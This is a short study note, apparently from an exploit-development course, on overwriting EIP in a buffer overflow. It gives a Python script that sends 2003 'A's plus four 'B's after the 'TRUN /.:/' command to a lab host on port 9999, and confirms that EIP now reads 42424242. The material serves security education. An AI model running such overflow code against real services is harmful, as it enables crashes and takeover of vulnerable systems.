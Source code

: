 Overwriting EIP

Wednesday, June 21, 2023

8:57 PM

 

New code using offset found from last lesson

 

#!/usr/bin/python

import sys, socket

shellcode = \"A\" \* 2003 + \"B\" \* 4

try:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((\'192.168.1.221\',9999))

s.send((\'TRUN /.:/\' +shellcode))

s.close()

except:

print \"Error connecting to the server\"

sys.exit()

 

 

B\'s all landed on EIP designated by the 42424242 meaning we now control EIP

![](004_Overwriting_EIP_000.png){width="3.53125in" height="2.1979166666666665in"}

 

EIP ends at 2003 so we are writing our b\'s in the EIP

